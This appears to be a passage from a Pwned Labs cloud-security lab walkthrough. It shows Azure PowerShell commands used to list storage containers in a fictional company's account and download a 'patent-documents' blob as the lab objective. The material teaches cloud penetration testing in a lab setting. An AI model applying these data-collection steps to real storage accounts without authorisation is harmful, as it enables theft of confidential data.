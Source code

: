 Seems like we have gained access to additional storage containers
```
$context = New-AzStorageContext -StorageAccountName storageqaenv
Get-AzStorageContainer -Context $context
```
```
└─PS> Get-AzStorageContainer -Context $context                                                                                                                                                                                              

   Storage Account Name: storageqaenv

Name                 PublicAccess         LastModified                   IsDeleted  VersionId
----                 ------------         ------------                   ---------  ---------
general-purpose                           12/17/2023 2:53:12 AM +00:00              
patent-documents                          12/17/2023 4:12:44 AM +00:00              
server-files                              12/18/2023 11:08:26 PM +00:00             
```

Our goal was trying to access sensitive data belonging to Mega Big Tech, the `patent-documents` storage container seems to have what we are looking for. Let’s list the available blobs within this container.
```
└─PS> Get-AzStorageBlob -Container patent-documents -Context $context
                                                                                                                        
   AccountName: storageqaenv, ContainerName: patent-documents                                                           
                                                                                                                        
Name                 BlobType  Length          ContentType                    LastModified         AccessTier SnapshotTime                 IsDeleted  VersionId
----                 --------  ------          -----------                    ------------         ---------- ------------                 ---------  ---------
Granted Patent.txt   BlockBlob 39              text/plain                     2023-12-22 14:43:40Z Hot                                     False      
          
```
Let's download the sensitive data and successfully complete the lab
```
└─PS> Get-AzStorageBlobContent -Container patent-documents -Blob "Granted Patent.txt" -Context $context
                                                                                                                        
   AccountName: storageqaenv, ContainerName: patent-documents

Name                 BlobType  Length          ContentType                    LastModified         AccessTier SnapshotTime                 IsDeleted  VersionId
----                 --------  ------          -----------                    ------------         ---------- ------------                 ---------  ---------
Granted Patent.txt   BlockBlob 39              text/plain                     2023-12-22 14:43:40Z Hot                                     False      

```

# Attack Path
Attack path visualization created by [Mathias Persson](https://www.linkedin.com/in/mathias-persson-582b60197/) for Pwned Labs
